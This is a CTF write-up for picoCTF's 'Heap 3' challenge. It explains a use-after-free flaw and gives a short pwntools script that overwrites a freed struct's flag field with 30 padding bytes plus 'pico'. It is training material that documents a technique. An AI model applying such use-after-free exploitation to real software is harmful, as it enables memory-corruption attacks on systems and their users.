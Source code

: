 # CTF Write-Up: [Heap 3][Binary Exploitation]

## Description
>This program mishandles memory. Can you exploit it to get the flag?


## Flag
The flag you obtained after solving the challenge. (e.g., `picoCTF{now_thats_free_real_estate_79173b73}`)

## Difficulty
- **Difficulty Level:** [medium]

## Tools Used
- pwntools

## Write-Up

### Preparatory Phase
Static analysis reveals some potential issues regarding a `free_memory` function: ![alt text](images/image.png)
A user can free the `x` variable but the pointer to the memory address is not cleared. This can be problematic as after freeing `x`, the chuck of memory is still floating around can be used for malicious values. 

Our goal is to set `x->flag` to be "pico". We could attempt to write to `x->flag`.
![alt text](images/image-2.png)
However, unlike the previous two exercises [Heap 1] and [Heap 2] we do not know where the start of the buffer is located as we only given the value of `x->flag`: ![alt text](images/image-3.png)
The address also seems to be randomised each time I run the binary, therefore I need to rely on this `use-after-free` vulnerability.
![alt text](images/image-4.png)
> Different address

The final key observation is the following data structure: 
![alt text](images/image-5.png).

Since a char is 1 byte, it requires 30 bytes of data to reach the `flag` field. This is important for the attack phase where we will be allocating memory to this data structure.
![alt text](images/image-6.png)
### Attack Phase
![alt text](images/image-7.png)
Given these options from the binary, the steps of the attack are as follows
1. Free the value at `x`
2. Allocate 35 bytes of memory and write to it 30 bytes of junk + "pico"
3. Now the pointer that was freed from `x` will point to our malicious payload. 
4. Press `4` to check for our win.
![alt text](images/image-1.png)
### Final Solution/Payload
```py
from pwn import *

host = 'tethys.picoctf.net'
port = 61865
io = remote(host, port)

response = io.recv()
io.sendline(b'5')
response = io.recv()
print(response)

io.sendline(b'2')
io.recv()
io.sendline(b'35')
io.recv()
payload = b'A' * 30 
payload += b'pico'
io.sendline(payload)
response = io.recv()
io.sendline(b'4')
response = io.recv()
print(response)

```

### Lessons Learnt
- **What is use after free vulnerability is?**
This was the first time I practically saw a use-after-free in action. At a high-level, a use-after-free exploit involves pointers and allocated heap memory. Pointers refer to data sets, so if a dataset is freed or removed the pointer still refers to that memory address (NOTE: in `C` usually we would set the pointer to NULL to prevent this). Now if new data is introduced, the program may allocate that same slot of memory where the pointer is still pointing to. This new data can be malicious code employed by an attacker.

Sources: https://www.ctfrecipes.com/pwn/heap-exploitation/use-after-free
## References
- https://www.automox.com/blog/vulnerability-definition-use-after-free
- https://cwe.mitre.org/data/definitions/416.html
- https://www.ctfrecipes.com/pwn/heap-exploitation/use-after-free
- [Recent example of Firefox case study](#https://thehackernews.com/2024/10/mozilla-warns-of-active-exploitation-in.html)
